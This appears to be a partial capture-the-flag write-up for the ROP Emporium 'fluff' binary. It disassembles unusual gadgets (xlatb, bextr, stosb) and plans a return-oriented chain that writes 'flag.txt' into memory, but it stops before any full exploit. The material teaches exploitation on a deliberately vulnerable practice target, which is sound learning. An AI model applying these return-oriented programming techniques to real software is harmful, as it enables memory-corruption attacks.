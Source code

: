 The situation is like callme.

But we can't find a `mov [reg], reg`.

    ROPgadget --binary fluff --depth 15 | grep mov
    Nothing with [rxx]


The introduction suggest us to look at questionableGadgets symbol:

```sh
[0x00400628]> pd 10 @ loc.questionableGadgets
            ;-- questionableGadgets:
            0x00400628      d7             xlatb
            0x00400629      c3             ret
            0x0040062a      5a             pop rdx
            0x0040062b      59             pop rcx
            0x0040062c      4881c1f23e00.  add rcx, 0x3ef2
            0x00400633      c4e2e8f7d9     bextr rbx, rcx, rdx
            0x00400638      c3             ret
            0x00400639      aa             stosb byte [rdi], al
            0x0040063a      c3             ret
            0x0040063b      0f1f440000     nop dword [rax + rax]
```
Ok, we have 3 gadgets.

* with `stosb byte [rdi], al` we can write one byte in memory if we control al and rdi.

Control rdi :
```
06_fluff# ROPgadget --binary fluff --depth 15 |grep "pop rdi"
0x00000000004006a3 : pop rdi ; ret
```
By usage 8 time of this gadeget we can write out "flag.txt".

To do that we need to control edi an al

For edi we found a `pop rdi` gadget

     0x4006a3 : pop rdi ; ret

But no "pop rax".

* The gadget `xlatb` : allows us to control al from rbx and current value of al.

    *XLATB : Table Look-up Translation Byte : Set AL to the contents of DS:[RBX + unsigned AL].*

`al` is loaded with le byte content of the address given by rbx+al.


What about the value of `al` at the end of `pwnme`?

```
   0x00007fef49e00934 <+138>:	lea    rdi,[rip+0x110]        # 0x7fef49e00a4b
   0x00007fef49e0093b <+145>:	call   0x7fef49e00730 <puts@plt>
=> 0x00007fef49e00940 <+150>:	nop
   0x00007fef49e00941 <+151>:	leave
   0x00007fef49e00942 <+152>:	ret
```
